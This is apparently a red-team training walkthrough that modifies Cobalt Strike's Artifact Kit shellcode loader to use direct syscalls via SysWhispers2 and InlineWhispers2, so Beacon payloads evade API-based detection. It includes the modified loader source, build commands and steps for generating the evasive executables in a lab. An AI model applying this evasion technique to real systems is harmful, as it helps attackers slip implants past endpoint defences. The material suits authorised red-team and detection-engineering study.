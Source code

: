The use of syscalls can be integrated into Cobalt Strike's Artifact Kit, which is useful in cases where Beacon payloads are being detected through their use of APIs.  The payloads themselves act as simple shellcode loaders, which bootstrap and run a reflective package.

For instance - the default EXE payload uses VirtualAlloc, VirtualProtect and CreateThread to execute Beacon shellcode inside itself.  This is the spawn function, located in `cobaltstrike/arsenal-kit/kits/artifact/src-common/patch.c`.

```
 89 #elif USE_VirtualAlloc
 90    ptr = VirtualAlloc(0, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

...

113 #if defined(USE_VirtualAlloc) || defined(USE_MapViewOfFile)
114    /* fix memory protection */
115    DWORD old;
116    VirtualProtect(ptr, length, PAGE_EXECUTE_READ, &old);
117 #endif
118
119    /* spawn a thread with our data */
120    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&run, ptr, 0, NULL);
```
  

The default output from SysWhispers2 doesn't play nice with Beacon artifacts or BOFs.  So we need to use another tool, [InlineWhispers2](https://github.com/Sh0ckFR/InlineWhispers2) to convert the output slightly.

```
ubuntu@teamserver ~/I/SysWhispers2 (main)> pwd
/home/ubuntu/InlineWhispers2/SysWhispers2

ubuntu@teamserver ~/I/SysWhispers2 (main)> python3 syswhispers.py -p all -o syscalls_all
ubuntu@teamserver ~/I/SysWhispers2 (main)> cd ..
ubuntu@teamserver ~/InlineWhispers2 (main)> python3 InlineWhispers2.py

Sh0ckFR - https://twitter.com/Sh0ckFR
Import syscalls.c syscalls.h, syscalls-asm.h in your project and include syscalls.c to start to use syscalls
```
  

Copy `syscalls.c`, `syscalls.h` and `syscalls-asm.h` to `src-common` inside the artifact kit directory structure.

```
ubuntu@teamserver ~/InlineWhispers2 (main)> ls output/
syscalls-asm.h  syscalls.c  syscalls.h

ubuntu@teamserver ~/InlineWhispers2 (main)> cp output/* ~/cobaltstrike/arsenal-kit/kits/artifact/src-common/
```
  

Open `patch.c` in an editor and add `#include "syscalls.c"` above the `spawn` function.

```
 66 #include "syscalls.c"
 67 void spawn(void * buffer, int length, char * key) {
```
  

Then it's just a case of replacing the Win32 API calls with their Nt equivalent.

```
 90 #elif USE_VirtualAlloc
 91    HANDLE hProcess;
 92
 93    /* get handle to own process */
 94    OBJECT_ATTRIBUTES oa;
 95    InitializeObjectAttributes(&oa, 0, 0, 0, 0);
 96
 97    CLIENT_ID cid = { (HANDLE)GetCurrentProcessId(), NULL};
 98    NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &oa, &cid);
 99
100    /* allocate memory */
101    SIZE_T regionSize = (SIZE_T)length;
102    NtAllocateVirtualMemory(hProcess, &ptr, 0, &regionSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```
  

```
125 #if defined(USE_VirtualAlloc) || defined(USE_MapViewOfFile)
126    /* fix memory protection */
127    DWORD old;
128    NtProtectVirtualMemory(hProcess, &ptr, &regionSize, PAGE_EXECUTE_READ, &old);
```
  

```
132    /* spawn a thread with our data */
133    HANDLE hThread;
134    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, &run, ptr, FALSE, 0, 0, 0, NULL);
```
  

Before being able to rebuild the artifacts, we have to modify `build.sh`.

1.  Modify the two `c_options` variables in the `build_artifacts64` function to include `-masm=intel`.  At the time of writing, these are on lines 79 and 102.
2.  Since in this example, we've only generated x64 syscalls, we need to disable the x86 builds by commenting out the call to `build_artifacts` (line 282).  If you require x86 builds, you can use the `_M_X64` directive inside the artifact source code to reference different syscalls files.

  

Run the build script, ensuring to specify the VirtualAlloc allocation type.

```
ubuntu@teamserver ~/c/a/k/artifact> ./build.sh pipe VirtualAlloc 271360 5 true false /tmp/artifact
```

  

Copy the new artifacts to the Attacker Windows VM and load the `artifact.cna`.  

```
C:\Users\Administrator>pscp -r -i Desktop\ssh.ppk ubuntu@10.10.0.69:/tmp/artifact/pipe C:\Tools\cobaltstrike
artifact64svc.exe         | 21 kB |  21.0 kB/s | ETA: 00:00:00 | 100%
artifact.cna              | 11 kB |  11.4 kB/s | ETA: 00:00:00 | 100%
artifact64.x64.dll        | 53 kB |  53.5 kB/s | ETA: 00:00:00 | 100%
artifact64big.x64.dll     | 317 kB | 317.5 kB/s | ETA: 00:00:00 | 100%
artifact64.exe            | 54 kB |  54.5 kB/s | ETA: 00:00:00 | 100%
artifact64big.exe         | 318 kB | 318.5 kB/s | ETA: 00:00:00 | 100%
artifact64svcbig.exe      | 285 kB | 285.0 kB/s | ETA: 00:00:00 | 100%
```
  

Then go to **Attacks > Packages > Windows Executable (S)** and generate a new x64 Windows EXE.

